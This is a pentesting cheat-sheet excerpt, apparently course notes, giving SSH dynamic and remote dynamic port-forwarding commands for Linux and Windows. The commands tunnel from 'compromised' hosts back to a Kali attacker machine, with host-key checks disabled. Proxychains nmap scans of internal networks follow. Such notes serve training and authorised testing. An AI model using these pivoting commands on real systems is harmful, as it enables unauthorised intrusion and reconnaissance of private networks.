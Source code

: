 ```bash

# Check version, if it is relatively recent it has dynamic pfwd
ssh -V
# reverse dynamic port forwarding to Kali with SOCKS proxy
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@192.168.0.2
# -i is the private key path which can be wherever we want such as /tmp/keys
#Dynamic port forwarding executed on Kali in case we have SSH access to the target
ssh root@10.11.1.0 -D 127.0.0.1:1080 -N
# Edit last line etc/proxychains.conf to configure
socks4  127.0.0.1 1080
# To speed up scans through proxychains, modify timeout via the tcp_read_time_out and tcp_connect_time_out values in /etc/proxychains.conf. However, don't set these too low or you will receive incorrect results.

# Dynamic Port Forwarding (we need access to an internal network and target any host and port there to do nmap scan)
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
# Create local SOCKS4 application proxy on our Kali Linux machine on TCP port 8080 (127.0.0.1:8080), which will tunnel all incoming traffic to any host in the target network, through the compromised Linux machine, which we log into as pepe:
sudo ssh -N -D 127.0.0.1:8080 pepe@10.11.0.128
# cat /etc/proxychains.conf
socks4 127.0.0.1 8080
# To run our tools through our SOCKS4 proxy, we prepend proxychains. SOCKS proxies require a TCP connection to be made and thus a half-open for SYN scan cannot be used with ProxyChains
sudo proxychains nmap --top-ports=20 -sT -Pn $INTERNAL_IP_TARGET
# We have to use the -sT parameter. If not, Nmap will stick to using the SYN technique which would negate Proxychains. This happens because Nmap through a proxy has limited options, i.e. simple TCP connections (no ICMP ping, no UDP scans, no SYN stealth scan, no OS detection, etc.).
```
{% endcode %}
{% endtab %}

{% tab title="Remote Dynamic" %}
{% code overflow="wrap" %}
```sh
# Remote dynamic (connection from the compromised machine to the attacking machine and also allows more flexibility to connect to other ports and hosts)
# NOTE: OpenSSH client needs to be version 7.6 or higher in order to use it 
compromised@machine ssh (-f) -N -R 9999 kali@192.168.100.15
# Check the remote dynamic port forward is listening
ss -ntplu | grep 9999
# Modify /etc/proxychains4.conf
socks5 127.0.0.1 9999
# Now we can target and scan other hosts and ports from the compromised machine perspective
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.8.8.25


############### WINDOWS ssh.exe (SSH client available since version 1803) (scp.exe, sftp.exe, ssh.exe, other ssh-* in %systemdrive%\Windows\System32\OpenSSH)
# Remote dynamic pfwd (command run on Windows compromised host to make it possible to discover other hosts and ports from Kali attacking machine)
kali@kali sudo systemctl start ssh
# Check where is the ssh.exe on the Windows compromised host
C:\> where ssh
C:\> ssh.exe -V # if higher than 7.6, we can use remote dynamic port forwarding
C:\> ssh -N -R 9999 kali@$KALI_IP
# Check port is open on Kali successfully
kali@kali ss -ntplu | grep 9999
# Update /etc/proxychains4.conf
socks5 127.0.0.1 9999
# Now from Kali we can connect to any host:port reachable by the compromised Windows machine 
```